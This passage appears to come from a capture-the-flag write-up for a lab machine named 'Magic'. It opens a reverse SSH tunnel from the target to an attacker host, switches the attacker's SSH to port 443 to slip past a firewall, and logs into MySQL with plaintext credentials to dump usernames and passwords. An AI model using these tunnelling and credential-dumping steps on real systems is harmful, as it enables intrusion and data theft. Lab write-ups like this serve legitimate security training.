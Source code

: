 ![user2](./magic/user2.png)

Try remote port forwarding to access the DB from Kali:

```bash
ssh -f -N -v -p 22 -R 127.0.0.1:6666:127.0.0.1:3306 user@10.10.14.25
```

However, this times out? Maybe there is a firewall rule preventing connections? Try modifying the Kali SSH server to run on a common port 443 (HTTPS):

```bash
vim /etc/ssh/sshd_config # add Port 443 after Port 22
```

Now run the following:

```bash
ssh -f -N -v -p 443 -R 127.0.0.1:6666:127.0.0.1:3306 user@10.10.14.25
```

This allows for a connection from Kali using the following command:

```bash
mysql -P 6666 -h 127.0.0.1 -u theseus -piamkingtheseus
```

Now enumerate the DB with the following MySQL:

```sql
SELECT schema_name FROM information_schema.schemata;
SELECT table_name FROM information_schema.tables WHERE table_schema = 'Magic';
SELECT column_name FROM information_schema.columns WHERE table_name = 'login';
SELECT id,username,password FROM Magic.login;
```
